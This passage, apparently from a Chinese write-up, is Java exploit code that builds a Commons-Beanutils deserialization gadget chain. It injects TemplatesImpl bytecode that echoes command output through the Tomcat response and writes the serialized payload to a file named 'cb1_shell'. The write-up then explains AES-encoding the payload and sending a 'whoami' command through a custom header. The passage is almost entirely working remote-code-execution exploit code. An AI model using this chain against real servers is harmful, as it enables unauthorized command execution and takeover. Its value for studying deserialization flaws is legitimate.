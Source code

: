 ```java
                "                                        usingWriter.set(request.getResponse(), Boolean.FALSE);\n" +
                "                                        writer.write(output);\n" +
                "                                        writer.flush();\n" +
                "                                        break;\n" +
                "                                    }\n" +
                "                                }\n" +
                "                                break;\n" +
                "                            }\n" +
                "                        }\n" +
                "                    }\n" +
                "                    break;\n" +
                "                }\n" +
                "            }\n" +
                "        }catch (Exception e){\n" +
                "        }";
        payload.makeClassInitializer().setBody(template);
        byte[] bytes=payload.toBytecode();

        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{bytes});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
//        BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        BeanComparator comparator=new BeanComparator(null, Collections.reverseOrder());
        PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
        queue.add("1");
        queue.add("1");
        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});

        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cb1_shell"));
            outputStream.writeObject(queue);
            outputStream.close();

//            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cb1_shell"));
//            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }

    }
}
```
然后使用AESencode.java生成payload，需要添加一下请求头
```
headers={"tomcat": "tomcat","X-FLAG": "whoami"}
```
![](https://img-blog.csdnimg.cn/f42d147b68434f88806bf84bb57d57d8.png)

